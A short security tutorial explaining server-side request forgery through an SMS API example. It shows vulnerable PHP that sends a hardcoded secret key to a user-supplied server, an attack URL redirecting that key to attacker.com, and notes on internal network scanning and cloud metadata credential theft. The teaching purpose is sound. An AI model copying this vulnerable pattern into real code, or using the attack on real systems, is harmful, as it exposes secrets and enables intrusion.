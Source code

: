 ### Basic Scenario: The SMS API
A web app uses an external API to send SMS messages. The API call requires a secret key.
```
Normal Flow:
User -> Your App -> SMS Provider API (with Secret Key)
```

**Vulnerable Code:**
The app lets the user specify the SMS provider's server in a parameter.
```php
$server = $_GET['server']; // e.g., "smsprovider.com"
$api_key = "SECRET_KEY_123";
// The app makes a request to the user-supplied 'server'
file_get_contents("https://" . $server . "/api/send?key=" . $api_key . "&msg=Hello");
```
A normal request: `https://yourapp.com/sms?server=smsprovider.com`

**The SSRF Attack:**
An attacker changes the `server` parameter to their own server.
`https://yourapp.com/sms?server=attacker.com`
This causes your application to make a request to:
`https://attacker.com/api/send?key=SECRET_KEY_123&msg=Hello`

The attacker now has your secret API key and can send SMS messages on your dime!

### Advanced SSRF Impacts
*   **Internal Network Scanning:** Attackers can make the server scan its own internal network, mapping out systems that are not directly accessible from the internet (e.g., `http://192.168.1.50:8080`).
*   **Accessing Cloud Metadata:** In cloud environments (like AWS), attackers can force the server to query its own metadata API, often yielding powerful credentials.